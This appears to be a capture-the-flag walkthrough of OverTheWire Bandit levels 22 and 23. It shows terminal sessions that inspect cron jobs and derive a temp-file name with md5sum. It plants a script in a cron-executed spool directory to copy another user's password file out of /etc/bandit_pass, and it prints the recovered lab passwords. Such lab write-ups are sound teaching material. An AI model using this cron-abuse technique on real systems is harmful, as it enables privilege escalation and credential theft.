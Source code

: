 ### Level 22
bandit22@bandit:~$ cd /etc/cron.d/
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget


bandit22@bandit:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1 
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

### Level 23
Very simple, don't be overwhelmed. The script below exectues and then deletes the scripts. We just need to create a script that reads the pass on bandit24 and then put it in /var/spool/bandit24

```
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


bandit23@bandit:/etc/cron.d$ bandit23@bandit:/etc/cron.d$ ls /var/spool
bandit24  cron  mail  plymouth  rsyslog

bandit23@bandit:/etc/cron.d$ mkdir /tmp/test
bandit23@bandit:/etc/cron.d$ cd /tmp/test
bandit23@bandit:/tmp/test$ nano script.sh
    #!/bin/bash

    cat /etc/bandit_pass/bandit24 > /tmp/test/pass
    
bandit23@bandit:/tmp/test$ chmod 777 script.sh
bandit23@bandit:/tmp/test$ cp script.sh /var/spool/bandit24
bandit23@bandit:/tmp/test$ cat pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
